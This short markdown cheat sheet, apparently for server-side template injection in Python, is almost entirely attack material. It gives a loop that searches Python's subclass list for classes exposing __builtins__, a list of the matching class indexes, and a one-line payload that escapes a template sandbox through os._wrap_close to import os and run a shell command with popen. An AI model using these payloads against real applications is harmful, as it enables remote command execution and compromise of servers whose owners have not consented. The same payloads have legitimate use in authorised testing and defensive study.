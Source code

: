 # SSTI FUZZ 

## py 2.x 3.x

```python
search = '__builtins__'
num = -1
for i in ().__class__.__bases__[0].__subclasses__():
    num += 1
    try:
        if search in i.__init__.__globals__.keys():
            print(i, num)
    except:
        pass
```



```python
<class '_frozen_importlib._ModuleLock'> 75
<class '_frozen_importlib._DummyModuleLock'> 76
<class '_frozen_importlib._ModuleLockManager'> 77
<class '_frozen_importlib._installed_safely'> 78
<class '_frozen_importlib.ModuleSpec'> 79
<class '_frozen_importlib_external.FileLoader'> 91
<class '_frozen_importlib_external._NamespacePath'> 92
<class '_frozen_importlib_external._NamespaceLoader'> 93
<class '_frozen_importlib_external.FileFinder'> 95
<class 'codecs.IncrementalEncoder'> 102
<class 'codecs.IncrementalDecoder'> 103
<class 'codecs.StreamReaderWriter'> 104
<class 'codecs.StreamRecoder'> 105
<class 'os._wrap_close'> 127
<class '_sitebuiltins.Quitter'> 128
<class '_sitebuiltins._Printer'> 129
<class 'types.DynamicClassAttribute'> 131
<class 'types._GeneratorWrapper'> 132
<class 'warnings.WarningMessage'> 133
<class 'warnings.catch_warnings'> 134
<class 'reprlib.Repr'> 161
<class 'functools.partialmethod'> 168
<class 'contextlib._GeneratorContextManagerBase'> 170
<class 'contextlib._BaseExitStack'> 171
<class 'rlcompleter.Completer'> 172
```

### py3

```python
().__class__.__bases__[0].__subclasses__()[127].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls").read()
```
